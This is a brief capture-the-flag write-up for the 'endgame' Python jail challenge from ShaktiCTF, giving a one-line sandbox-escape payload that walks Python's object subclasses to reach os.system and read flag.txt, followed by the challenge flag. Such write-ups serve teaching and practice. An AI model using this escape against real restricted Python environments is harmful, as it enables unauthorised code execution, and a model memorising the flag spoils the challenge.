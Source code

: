 Title: endgame

Description:
```
Crack the last one in pyjail series! Author : Claire de lune
```

Refer to the first [challenge](https://github.com/Coder-Here/ShaktiCTF/blob/main/Misc/level0/README.md), the payload works from there.

```
print([].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('cat flag.txt'))
```

![image](https://user-images.githubusercontent.com/63996033/207102857-1321a580-934c-4c35-b1c4-0365a3d36482.png)

Flag: shakti{H0w_D0_y0u_L1k3_35c4p3_r00m5_n0W?}
